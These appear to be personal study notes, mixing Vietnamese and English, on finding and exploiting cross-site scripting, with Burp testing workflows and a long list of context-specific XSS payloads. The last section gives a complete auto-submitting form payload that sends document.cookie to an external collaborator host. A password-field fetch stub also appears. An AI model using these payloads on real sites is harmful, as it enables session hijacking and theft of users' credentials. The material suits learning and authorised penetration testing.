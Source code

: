 ### ***References***:
[Cross Site Scripting - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)
[Cross-Site Scripting (XSS) Cheat Sheet - 2025 Edition](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
# Identification
## Reflect XSS
+ URL param: `https://insecure-website.com/search?term=gift`
1. **Kiểm thử mọi entry point**: mọi tham số trong URL (query, path), body và header.
2. **Gửi giá trị ngẫu nhiên**: mỗi entry point gửi giá trị chữ-số duy nhất (~8 ký tự). (Có thể dùng Burp Intruder để sinh giá trị và grep phản hồi.)
3. **Xác định ngữ cảnh phản chiếu**: xem giá trị xuất hiện trong HTML text, attribute có/không quote, JS string, v.v.
4. **Thử payload ứng viên**: dựa vào ngữ cảnh, chèn payload bằng Burp Repeater, gửi và kiểm tra response. Đặt payload trước/sau giá trị ngẫu nhiên, dùng tìm kiếm để định vị nhanh.
5. **Thử payload thay thế**: nếu payload bị sửa hoặc chặn, thử các biến thể phù hợp với ngữ cảnh và kiểu lọc.
6. **Chạy trên trình duyệt thật**: chuyển PoC sang trình duyệt (dán URL hoặc sửa request qua Proxy) và kiểm tra (ví dụ `alert(document.domain)`).
## Stored XSS

| **Entry points (test tất cả):** | Query string, body (form/json), URL path, HTTP headers,  Kênh ngoại băng thông (email, third-party feeds, uploads…). |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **Exit points:**                | Mọi response trả cho bất kỳ người dùng nào (trang, API, feed, log hiển thị...)                                       |

**Quy trình ngắn:**
1. Ghi list tất cả entry point khả dụng.
2. Với mỗi entry point: gửi **giá trị riêng/duy nhất** (vd 8 ký tự) và **giám sát các response** để tìm reflection.
3. Khi thấy giá trị xuất hiện ở response nào → xác định **ngữ cảnh** (HTML text, attribute, JS string, URL, v.v.).
4. Xác minh **có được lưu (stored)** hay chỉ reflected tạm thời (tham chiếu qua request khác / refresh để kiểm tra).
5. Dựa vào ngữ cảnh, thử payload ứng viên phù hợp (dùng Burp Repeater để chỉnh & kiểm tra).
6. Nếu payload bị sửa/chặn → thử biến thể khác theo ngữ cảnh (HTML-encode, JS-escape, onerror/throw, template literal, v.v.).
7. Khi payload hoạt động trong Repeater → chuyển PoC sang **trình duyệt thật** để xác nhận thực thi (ví dụ `alert(document.domain)`).

> Ưu tiên kiểm tra các chức năng dễ lưu dữ liệu: comment, profile, posts, uploads, admin logs.
> Theo dõi khả năng ghi đè (recent list, cache) — dữ liệu lưu có thể bị thay thế nhanh.

## DOM XSS

# Tricks & Payload

#### Payload phổ biến portswigger
```html
# 1.location.search (hidden param)
&storeId=<script>alert(URLSearchParams(window.location.search))</script>

# 2.vuln in JS framework (angular 1.7.7)
{{constructor.constructor('alert(1)')()}}

# 3.eval('var searchResultsObj = ' + this.responseText);
\"-alert(1)}//

# 4.html.replace('<', '&lt;').replace('>', '&gt;');
<><img src=x onerror=alert()>')

# 5.using resize
<iframe src="/?search=<body onresize=print()>" onload=this.style.width='1%'>

# 6.location.hash
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x

# 7.xss in svg
<svg><animatetransform onend=alert(1) attributeName=transform dur=1s>

# 8.in canonical link tag
?<div accesskey='x' onclick='alert(1)'></div>

# 9.escape backslash and single quote
</script><script>alert(1)</script>

# 10. angle brackets and double quotes HTML-encoded and single quotes escaped
\';alert(1)//

# 11. string template literal with backtick
${alert()}

# 12. Making use of HTML-encoding
&apos;-alert(document.domain)-&apos; 

# 13 
<input type=password name=password onchange="if(this.value.length)fetch(...)">

```

## XSS
**1. XSS between HTML tags**
```html
<img src=x onerror=js>
<script>...</script>
<svg>...</svg>
...
```
**2. XSS in HTML tag attributes**
```html
"><script>alert(document.domain)</script> # Đóng tag cũ
" autofocus onfocus=alert(document.domain) x=" # Chèn thêm thuộc tính vào thẻ
<a href="javascript:alert(document.domain)"> # Chèn vào href -> Open redirect
```
**3. XSS in JAVASCRIPT**
###### Terminating the existing script
```html
<script>
  var input = 'controllable data here';
  var csrfElement = document.querySelector('input[name=csrf]');
  var csrfToken = csrfElement ? csrfElement.value : null;
...
</script>
```

```html
</script><img src=1 onerror=alert(document.domain)>
# đóng đoạn script trước chèn payload xss vào sau.
# thẻ html sẽ được load trước thẻ script
```
##### Breaking out of a JavaScript string
```html
'-alert(document.domain)-' 
';alert(document.domain)// # Ex: <script> var s = '\\';alert(1)//';</script>
\"-alert(1)}//
```
##### XSS without parentheses and semi-colons
```html
<script>onerror=alert;throw 1337</script> # Function without parentheses
<script>{onerror=alert}throw 1337</script> # Function without semi-colon 
<script>throw onerror=alert, (console.log('a')), 42, 'x'</script> 
```
##### XSS in JavaScript template literals
```html
${alert(document.domain)} # để ý ``
```

# Attack Vectors
## 1. Refflect XSS with POST method
Sử dụng lỗ hổng khác CSRF, Hijacking để tạo form submit tới bên endpoint có lỗ hổng
```html
</h1><form action="https://webvuln.example/" method="GET" id="f"> <input type="hidden" name="search" value="<script>fetch('https://88eyjen9z5czhledp4x216l6wx2oqge5.oastify.com',{method:'POST',body:document.cookie})</script>"> </form> <script>document.getElementById('f').submit();</script><h1>
```
	